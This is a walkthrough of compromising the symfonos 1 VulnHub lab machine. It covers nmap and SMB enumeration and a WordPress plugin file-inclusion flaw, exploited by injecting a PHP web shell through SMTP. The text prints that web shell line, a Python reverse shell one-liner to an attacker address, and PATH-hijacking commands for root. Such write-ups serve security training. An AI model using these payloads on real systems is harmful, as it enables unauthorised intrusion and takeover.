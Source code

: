 <h1>symfonos: 1</h1>

**Today, we'll be looking at the symfonos 1 machine on vulnhub.**

**You can download the machine here:**
<https://www.vulnhub.com/entry/symfonos-1,322/>

Let's scan the machine with nmap.
```
┌──(root㉿kali)-[~]
└─# nmap -sS -A 172.16.243.134 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-19 09:13 EET
Nmap scan report for 172.16.243.134
Host is up (0.00012s latency).
Not shown: 995 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 ab5b45a70547a50445ca6f18bd1803c2 (RSA)
|   256 a05f400a0a1f68353ef45407619fc64a (ECDSA)
|_  256 bc31f540bc08584bfb6617ff8412ac1d (ED25519)
25/tcp  open  smtp        Postfix smtpd
|_smtp-commands: symfonos.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8
|_ssl-date: TLS randomness does not represent time
80/tcp  open  http        Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.5.16-Debian (workgroup: WORKGROUP)
MAC Address: 00:0C:29:4D:BC:CD (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: Hosts:  symfonos.localdomain, SYMFONOS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h40m00s, deviation: 2h53m12s, median: 0s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-06-19T07:13:23
|_  start_date: N/A
|_nbstat: NetBIOS name: SYMFONOS, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.5.16-Debian)
|   Computer name: symfonos
|   NetBIOS computer name: SYMFONOS\x00
|   Domain name: \x00
|   FQDN: symfonos
|_  System time: 2023-06-19T02:13:23-05:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

TRACEROUTE
HOP RTT     ADDRESS
1   0.12 ms 172.16.243.134

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 45.81 seconds
```

We can see that the machine is running smb.

Let's use enum4linux to enumerate the mahcine.

```enum4linux -a 172.16.243.134```

We found a username.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/symfonos1/pics/pic1.png)

We also found shares on the machine.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/symfonos1/pics/pic2.png)

Let's check the anonymous share as it doesn't have a password.

```smbclient //symfonos.local//anonymous```

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/symfonos1/pics/pic3.png)

We found an interesting file **attention.txt**.

Let's get that.

Looks like we got some passwords.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/symfonos1/pics/pic4.png)

Let's try to login into the helios share with those.

We got in with the password **qwerty**.

We also found two files.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/symfonos1/pics/pic5.png)

We found a directory in the **todo.txt** file.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/symfonos1/pics/pic6.png)

Looks like it's runnin wordpress.

Let's run wpscan.

```wpscan --url http://symfonos.local/h3l105```

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/symfonos1/pics/pic7.png)

We found a plugin called **mail-masta** that has an LFI vulnerability.

You can find it [here](https://www.exploit-db.com/exploits/40290).

We can read the /etc/passwd file.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/symfonos1/pics/pic8.png)

Now, let's try to include php shell code.

We can use the smtp server running on port 25 to send the php code.

```MAIL FROM: <hacker>```

```RCPT TO: Helios```

```data```

```<?php system($_GET[‘cmd’]); ?>```

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/symfonos1/pics/pic9.png)

We can verify it's working by runnin the command **id**.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/symfonos1/pics/pic10.png)

Now, let's open a shell on the machine.

I'll use this python shell.

```python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.16.243.1",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'```

We got a shell.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/symfonos1/pics/pic11.png)


After some local enumeration, I found an interesting file in the **opt** directory called **statuscheck**.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/symfonos1/pics/pic12.png)

I ran it and looks like it ran the curl command.

And it is run as root.

We can modify the PATH variable and use that to gain root priviliges.

First let's go to the **tmp** directory and create our own curl command.

After that, we need to modify the PATH variable to run the curl command we just created.

``echo "/bin/sh" > curl``

``chmod 777 curl``

``export PATH=.:$PATH``

Now, if we run ``/opt/statuscheck``, we should become root.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/symfonos1/pics/pic13.png)

